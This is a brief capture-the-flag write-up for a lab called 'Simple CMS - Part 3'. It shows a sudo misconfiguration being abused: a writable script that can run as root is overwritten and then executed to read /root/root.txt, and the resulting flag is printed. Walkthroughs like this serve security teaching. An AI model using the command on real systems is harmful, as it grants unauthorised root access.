 # Simple CMS - Part 3

We have the web shell from the previous task.

`sudo -l` will show us that we can run `/opt/scripts/mycleaner` script as any user without the password.

Now, the following command will get the root flag:

`echo "cat /root/root.txt" > /opt/scripts/mycleaner && sudo /opt/scripts/mycleaner`

=> FLAG{DZIVI:7283456896-ROOT}
